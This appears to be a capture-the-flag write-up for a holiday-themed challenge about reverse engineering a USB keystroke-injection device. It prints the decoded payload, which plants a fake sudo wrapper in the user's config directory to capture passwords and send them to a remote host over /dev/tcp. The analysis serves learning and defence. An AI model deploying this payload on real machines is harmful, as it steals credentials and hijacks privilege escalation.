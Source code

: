 ### 5. Strange USB Device
#### Difficulty
2/5

#### Description
Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

#### Solution
Use the provided file in the current directory to analyze the binary that's on the USB, keeping in mind the hint about SSH keys:

```shell                              
elf@64d27a2270ff:~$ ./mallard.py -f /mnt/USBDEVICE/inject.bin                                  
ENTER                                                                                          
DELAY 1000                                                                                     
GUI SPACE                                                                                      
DELAY 500                                                                                      
STRING terminal                                                                                
ENTER                                                                                          
DELAY 500
GUI -
GUI -
GUI -
GUI -
GUI -
STRING  /bin/bash
ENTER
DELAY 500
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 200
STRING echo '#!/bin/bash > ~/.config/sudo/sudo
ENTER
STRING /usr/bin/sudo $@ 
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
ENTER
STRING if [ $? -eq 1 ]
ENTER
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
```
